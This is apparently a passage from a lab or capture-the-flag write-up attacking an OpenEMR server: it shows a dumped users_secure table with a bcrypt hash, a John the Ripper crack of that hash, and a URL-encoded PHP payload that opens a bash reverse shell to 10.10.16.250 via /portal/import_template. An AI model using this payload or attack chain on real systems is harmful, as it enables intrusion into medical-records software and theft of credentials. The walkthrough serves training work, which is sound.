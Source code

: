 ```
[13:18:38] [INFO] fetching tables for database: 'openemr'
Database: openemr
[13:18:38] [INFO] fetching columns for table 'users_secure' in database 'openemr'
[13:18:38] [INFO] fetching entries for table 'users_secure' in database 'openemr'
Database: openemr
Table: users_secure
[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | <blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | <blank>  | 2019-11-21 06:38:40 | <blank>       | <blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
```

Afterwards, we were able to successfully crack the password using John The Ripper, and the password was revealed to be xxxxxx

```
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=rockyou.txt password.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2021-08-23 21:11) 7.692g/s 6646p/s 6646c/s 6646C/s tristan..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, we will make use of the CVE mentioned earlier to trigger an arbitary PHP code execution from ```/portal/import_template```. All we have to do is to craft a single-line url-encoded PHP paylod, ```%3C%3Fphp%0A%0Aexec(%22%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.250%2F3001%200%3E%261%27%22)%3B```, which uploads a reverse shell to the vulnerable endpoint. We will then visit ```/portal/exploit.php``` to trigger the payload.

![PHP rce](../assets/cache/rce_reverse_shell.png)
